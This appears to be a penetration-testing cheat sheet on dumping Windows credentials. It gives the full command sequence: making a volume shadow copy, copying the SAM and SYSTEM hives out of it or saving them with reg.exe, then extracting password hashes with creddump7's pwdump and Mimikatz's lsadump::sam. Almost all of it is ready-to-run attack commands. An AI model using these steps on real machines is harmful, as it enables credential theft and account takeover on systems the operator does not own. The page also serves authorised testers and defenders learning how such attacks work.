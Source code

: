 # SAM/SYSTEM exfiltration

## SAM/SYSTEM exfiltration

### Shadowcopy SAM database

{% hint style="info" %}
C:\Windows\System32\config\SAM
{% endhint %}

#### Create a copy of the SAM and SYSTEM using shadowcopy

```csharp
wmic shadowcopy call create Volume='c:\'
vssadmin list shadows
```

![](../../../../.gitbook/assets/image%20%28224%29.png)

{% hint style="danger" %}
copy must be done with **cmd**.**exe**
{% endhint %}

```csharp
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM .
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM .
```

![](../../../../.gitbook/assets/image%20%2891%29.png)

### Reg save SAM \(alternative\)

## 

```text
reg.exe save hklm\sam c:\test\sam
reg.exe save hklm\system c:\test\system
```

## SAM / SYSTEM decryption

### Creddump

#### Install

```csharp
 sudo apt install python-crypto
 sudo git clone https://github.com/Neohapsis/creddump7
```

```csharp
sudo pacman -Sy creddump
```

#### Usage

```csharp
pwdump SYSTEM SAM
```

![](../../../../.gitbook/assets/image%20%2867%29.png)

### Mimikatz

```text
lsadump::sam /system:C:\test\sam\system /sam:C:\test\sam\sam
```

![](../../../../.gitbook/assets/image%20%28309%29.png)



